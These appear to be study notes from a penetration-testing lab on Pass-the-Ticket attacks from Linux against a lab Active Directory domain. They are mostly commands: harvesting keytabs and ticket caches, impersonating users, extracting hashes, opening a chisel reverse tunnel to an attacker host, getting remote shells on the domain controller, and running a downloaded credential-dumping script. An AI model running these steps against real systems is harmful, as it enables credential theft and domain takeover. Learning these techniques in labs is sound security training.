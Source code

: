 Here are the **simple hacker notes** for **Pass-the-Ticket (PtT) from Linux** — just commands and short explanations.

---

# PtT (Linux) – Quick Notes

## 0) Connect (example via port-forward on MS01)

```bash
ssh david@inlanefreight.htb@10.129.204.23 -p 2222
```

Login to the Linux host through MS01’s TCP/2222.

---

## 1) Check AD Join / Kerberos Use

```bash
realm list

ps -ef | grep -i "winbind\|sssd"
```

See if the box is domain-joined and using SSSD/Winbind.

---

## 2) Find Keytabs and Kerberos Tickets

```bash
find / -name *keytab* -ls 2>/dev/null
crontab -l
cat /home/<user>/.scripts/kerberos_script_test.sh
env | grep -i krb5
ls -la /tmp | grep krb5cc
```

Locate `.keytab` files, scripted keytab usage, and ccache files.

---

## 3) Read Which Principal a Keytab Holds

```bash
klist -k -t /path/to/file.keytab
```

Identify principal and timestamp.

---

## 4) Impersonate with Keytab (import TGT)

```bash
klist
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
klist
```

Load the keytab into your session and verify TGT.

---

## 5) Use the Kerberos Context (SMB as example)

```bash
smbclient //dc01/carlos -k -c ls
```

Access SMB share using current Kerberos creds.

---

## 6) Extract Hashes from Keytab (for cracking/forging)

```bash
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab
```

Get NTLM / AES hashes if present.

---

## 7) Switch User After Cracking Password (example)

```bash
su - carlos@inlanefreight.htb
klist
```

Use recovered password to log in locally.

---

## 8) Use Someone Else’s ccache (PtT)

```bash
# as root, copy target ccache
cp /tmp/krb5cc_647401106_I8I133 /root/
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
klist
```

Adopt their ticket cache for your session.

---

## 9) Confirm Privs / Escalate (example account)

```bash
sudo -l
sudo su
whoami
```

Check sudo and escalate if allowed.

---

## 10) PtT to DC with Impacket (Kerberos mode)

```bash
# If domain-joined host: ensure KRB5CCNAME points to the ccache
proxychains impacket-wmiexec dc01 -k -no-pass
```

Run Impacket using the ticket; use hostname, not IP.

---

## 11) When Not Domain-Joined: Route to KDC

Hosts and proxychains:

```bash
# /etc/hosts
cat /etc/hosts
# add DC and hosts
172.16.1.10 inlanefreight.htb inlanefreight dc01.inlanefreight.htb dc01
172.16.1.5  ms01.inlanefreight.htb ms01

# /etc/proxychains.conf
cat /etc/proxychains.conf
[ProxyList]
socks5 127.0.0.1 1080
```

Chisel server (attacker):

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_* chisel && chmod +x ./chisel
sudo ./chisel server --reverse
```

Chisel client (MS01 via RDP):

```bash
xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
c:\tools\chisel.exe client <ATTACKER_IP>:8080 R:socks
```

Set ticket path:

```bash
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

---

## 12) Evil-WinRM with Kerberos

Install or configure Kerberos:

```bash
sudo apt-get install -y krb5-user
# or edit /etc/krb5.conf
cat /etc/krb5.conf
[libdefaults]
  default_realm = INLANEFREIGHT.HTB
[realms]
  INLANEFREIGHT.HTB = {
    kdc = dc01.inlanefreight.htb
  }
```

Run Evil-WinRM:

```bash
proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

---

## 13) Convert Tickets Between Formats

```bash
# ccache -> kirbi
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```

Import into Windows with Rubeus:

```bat
C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
klist
dir \\dc01\julio
```

---

## 14) Dump Kerberos Artifacts on Linux (root)

```bash
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh -O /opt/linikatz.sh
bash /opt/linikatz.sh
```

Finds Kerberos creds (keytabs, ccache) from SSSD/Samba/etc.

---

## 15) Notes on Ticket Lifetime

```bash
klist
```

Check “Valid starting” and “Expires.” Expired ccache won’t work.

---

### Minimal Workflow Recap

1. Discover keytabs/ccache → `find`, `ls /tmp`, `env`.
    
2. Keytab impersonation → `klist -k`, `kinit -k -t file.keytab`.
    
3. PtT with ccache → `export KRB5CCNAME=<cache>`; use `smbclient`, `impacket-*`, `evil-winrm`.
    
4. Off-domain access → chisel + proxychains + proper `/etc/hosts`.
    
5. Convert tickets as needed → `impacket-ticketConverter`, `Rubeus ptt`.
    
6. Enumerate/dump creds (root) → `linikatz.sh`.